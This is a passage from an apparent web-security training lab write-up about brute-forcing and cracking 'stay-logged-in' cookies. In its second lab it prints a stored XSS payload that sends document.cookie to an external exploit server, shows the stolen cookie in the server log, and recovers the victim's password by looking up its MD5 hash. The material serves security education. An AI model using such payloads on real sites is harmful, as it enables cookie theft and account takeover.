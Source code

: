 Delete the session cookie value, and start the attack.

There I see that I got a `200 OK` and a `302 Found` response, and the `200` was for the password `peter`, so I know that this is how the cookie is created, and now instead of the prefix `wiener` and the url `/id=wiener` I add `carlos` and in the list, I add all the password candidates and start the attack.

Now, I see that one response has a `200 OK` with the payload `Y2FybG9zOmQ1YWExNzI5YzhjMjUzZTVkOTE3YTUyNjQ4NTVlYWI4`, I open that in the browser, and the lab is solved.

-------
### Lab.2 - Offline Password Cracking

Using techniques such as XSS an attacker can steal another user's `remember me` cookie and see how the cookie is constructed from that.

There are even cases when it can be possible to get the password in cleartext from a cookie, even if it is hashed, because hashed versions of well-known passwords are stored online.

The goal of the lab is to obtain the password for `carlos`, and login to carlos's account page, and delete the account. The lab also has a XSS vulnerability in the comment section. I can login with my credentials `wiener:peter`.

After I login with my credentials, with the `Remember Me` checked, I analyze the response in Burp. There I see the `stay-logged-in` cookie, which when I inspect in the Burp Inspector, I see that when decoded from Base64, it is: `wiener:51dc30ddc473d43a6011e9ebba6ca770`.

So, this tells that the it is being `username:MD5 hashed password` has been encoded in Base64.

I confirm the XSS vulnerability by posting a comment: `<script>alert(1);</script>` and when getting back to the comments I see the alert.

![](../../../images/Pasted image 20250122160019.png)

I add this JS code to the comment: `<script>document.location='https://exploit-0a55000f0465d50182b3b1a001c7006d.exploit-server.net/exploit/'+document.cookie</script>` pointing to the exploit server.

And then in the exploit server, I access the logs, and I see a GET request to the exploit server.

```http
GET /exploit/secret=1XOZZSt0TKx8n0bbmGovsXmTfOA9qWPw;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Chrome/143664
```

Here I have the `stay-logged-in` cookie, which after decoding from Base64 from CyberChef I got: `carlos:26323c16d5f4dabff3bb136f2460a943`.

Now, since many MD5 hashes are already decrypted online, I will just search for this MD5 on Google, and I see that the password is `onceuponatime`.

I used that to login and delete the account, and the lab is solved.

------

## Resetting Passwords Using a URL

Usually websites send a URL to users when they want to reset their password, sending them to a password reset page.
